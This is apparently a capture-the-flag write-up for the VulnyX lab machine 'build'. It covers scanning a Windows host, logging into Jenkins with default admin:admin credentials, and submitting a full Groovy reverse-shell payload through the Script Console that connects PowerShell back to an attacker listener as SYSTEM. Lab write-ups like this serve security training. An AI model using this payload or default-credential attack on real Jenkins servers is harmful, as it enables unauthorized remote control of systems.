


# build

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| build | d4t4s3c | low | vulnyx |

**Summary:** build is a Windows host running Jenkins on a Jetty server that turns a weak default credential into full administrative compromise of the entire operating system. A full port scan exposes a Microsoft IIS service on port 80, the standard Windows RPC and SMB ports, and a Jetty 12 web application on port 8080. Content scanning of that web service reveals Jenkins 2.504.2 behind a login form, and the classic default combination of `admin:admin` grants unrestricted access to the administrative console. With the Jenkins management panel in hand, the attacker opens the Groovy Script Console, a feature designed to execute arbitrary code on the master node, and submits a Groovy payload that spawns `powershell.exe` and pipes its standard streams over a TCP socket back to the attacking host. The listener catches an interactive session running as `NT AUTHORITY\SYSTEM`, meaning no lateral movement or privilege escalation is required at all, since the shell is already at the highest privilege level Windows offers. The user flag is recovered from the `builder` user's desktop and the root flag is recovered from the `Administrator` desktop, closing out the machine in a matter of minutes.

---

## Reconnaissance

1. The first step is host discovery against the local subnet. Three hosts respond to the ping sweep: the gateway, the attacker's own desktop, and the target `192.168.100.217`.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sn 192.168.100.0/24           
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 20:02 +0700
Nmap scan report for CLIENT-DESKTOP (192.168.100.1)
Host is up (0.00034s latency).
Nmap scan report for 192.168.100.2 (192.168.100.2)
Host is up (0.00057s latency).
Nmap scan report for 192.168.100.217 (192.168.100.217)
Host is up (0.0083s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 4.60 seconds
```

2. A full port scan with default scripts and service detection is launched against the target. The open ports reveal a Windows machine: Microsoft IIS on port 80, Windows RPC on port 135, NetBIOS on port 139, SMB on port 445, and a Jetty 12.0.19 web server on port 8080. The SMB scripts identify the NetBIOS name as `BUILD` and confirm a VirtualBox Windows guest.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 20:11 +0700
Nmap scan report for 192.168.100.217 (192.168.100.217)
Host is up (0.48s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8080/tcp  open  http          Jetty 12.0.19
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(12.0.19)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 13h59m57s
|_nbstat: NetBIOS name: BUILD, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:31:c7:ab (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2026-08-09T03:15:15
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.34 seconds
```

3. The Jetty service on port 8080 is fingerprinted with `whatweb`. The output reveals that the application is Jenkins 2.504.2, since the response headers `x-hudson`, `x-jenkins`, and `x-jenkins-session` are the signature of a Jenkins installation. The root path redirects to a sign in page, so credentials are required before anything else.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ whatweb http://192.168.100.217:8080/
http://192.168.100.217:8080/ [403 Forbidden] Cookies[JSESSIONID.e15d36f6], Country[RESERVED][ZZ], HTTPServer[Jetty(12.0.19)], HttpOnly[JSESSIONID.e15d36f6], IP[192.168.100.217], Jenkins[2.504.2], Jetty[12.0.19], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]
http://192.168.100.217:8080/login?from=%2F [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(12.0.19)], IP[192.168.100.217], Jenkins[2.504.2], Jetty[12.0.19], PasswordField[j_password], Title[Sign in - Jenkins], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session], X-Frame-Options[sameorigin]
```

---

## Initial Access

1. Jenkins is a well known target because of its default credentials. The administrator account is often left at the default `admin:admin`, and this machine is no exception. Submitting those credentials against the sign in form on port 8080 grants full access to the Jenkins dashboard.



2. Inside the dashboard the goal is to reach the Script Console, which is the cornerstone of Jenkins exploitation. The console is reached through the Manage Jenkins menu and allows arbitrary Groovy code to run on the Jenkins master node, which on this box runs as the highest privilege Windows account.



3. A Groovy reverse shell payload is prepared. It launches `powershell.exe`, opens a TCP socket to the attacking host on port 4444, and pumps the process input, output, and error streams through the socket so the remote attacker receives a full interactive PowerShell session.

```groovy
String host="192.168.100.1";
int port=4444;
String cmd="powershell.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();po.flush();Thread.sleep(50);
    try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();
s.close();
```

4. A netcat listener is started on port 4444 on the attacking host to receive the incoming reverse shell.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

5. The Groovy script is submitted in the Jenkins Script Console and the connection lands immediately. The prompt is a Windows PowerShell session, and the first command confirms the context: the Jenkins service runs as `nt authority\system`, so the compromise starts at the highest privilege level on the machine.

```powershell
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.20.131.21] from (UNKNOWN) [172.20.128.1] 61340
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Program Files\Jenkins> whoami
whoami
nt authority\system
```

---

## Privilege Escalation

1. Because the Jenkins service is already running as `NT AUTHORITY\SYSTEM`, there is no lateral movement and no privilege escalation chain to build. The only remaining task is to locate both flags, which is done with a recursive search of the `C:\Users` directory for the standard flag names.

```powershell
PS C:\Program Files\Jenkins> Get-ChildItem -Path C:\Users -Recurse -Include user.txt,root.txt,flag.txt,proof.txt -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Recurse -Include user.txt,root.txt,flag.txt,proof.txt -ErrorAction SilentlyContinue


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/31/2025  10:51 AM             35 root.txt                                                             


    Directory: C:\Users\builder\Desktop


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         5/31/2025  10:50 AM             35 user.txt                                                             
```

2. The user flag is read from the `builder` user's desktop.

```powershell
PS C:\Program Files\Jenkins> Get-Content C:\Users\builder\Desktop\user.txt
Get-Content C:\Users\builder\Desktop\user.txt
[REDACTED]
```

3. The root flag is read from the `Administrator` desktop, completing the machine.

```powershell
PS C:\Program Files\Jenkins> Get-Content C:\Users\Administrator\Desktop\root.txt
Get-Content C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```

---

## Attack Chain Summary
1. **Reconnaissance**: A ping sweep identifies `192.168.100.217` as the target, and a full service scan reveals Microsoft IIS on port 80, Windows RPC and SMB services, and a Jetty 12.0.19 web server on port 8080.
2. **Vulnerability Discovery**: `whatweb` fingerprints the service on port 8080 as Jenkins 2.504.2 behind a sign in form, and the deployment is found to use the default `admin:admin` credentials.
3. **Exploitation**: With administrative access to the Jenkins dashboard, a Groovy reverse shell is submitted through the Script Console. The payload spawns `powershell.exe` and tunnels its streams to a netcat listener, yielding an interactive shell running as `NT AUTHORITY\SYSTEM`.
4. **Internal Enumeration**: Since the Jenkins service runs as SYSTEM, the highest privilege Windows account, a recursive search of `C:\Users` directly locates `user.txt` on the `builder` desktop and `root.txt` on the `Administrator` desktop.
5. **Privilege Escalation**: No escalation is required. The reverse shell is already running as SYSTEM, so both flags are read immediately, the user flag from `C:\Users\builder\Desktop\user.txt` and the root flag from `C:\Users\Administrator\Desktop\root.txt`.
